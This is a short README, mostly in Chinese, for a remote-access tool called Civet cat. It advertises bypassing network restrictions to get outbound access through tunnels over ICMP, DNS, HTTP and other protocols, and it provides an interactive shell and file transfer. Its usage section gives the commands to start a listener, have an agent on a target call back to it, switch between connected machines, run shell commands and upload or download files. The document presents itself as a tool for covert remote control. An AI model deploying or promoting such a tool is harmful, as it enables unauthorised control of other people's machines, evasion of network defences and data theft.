 # civetcat
Civet cat  狸猫 远控
突破网络限制出网

### 实现协议
- TCP
- UDP 
- KCP
- HTTP
- HTTPS
- ICMP
- DNS
- WebSocket

### 实现功能
- 交互式shell
- 文件上传与下载

### 使用说明
``` 
./backend_ 0.0.0.0:8081 12345   // ./backedn listen_addr token
./agent_ 0.0.0.0:8081 12345     // 远控上线
```

``` 
./backend_ 0.0.0.0:8081 12345    
$ ls agent              // 获取在线机器
127.0.0.1:54920
$ use 127.0.0.1:54920   // 切换到此机器上
$ uname -r              // 执行普通shell命令
5.3.18-1-MANJARO
$ upload a.exe b.exe  (本地) (远程)  // 上传目标文件
$ download a.exe b.exe               // 下载目标文件
```

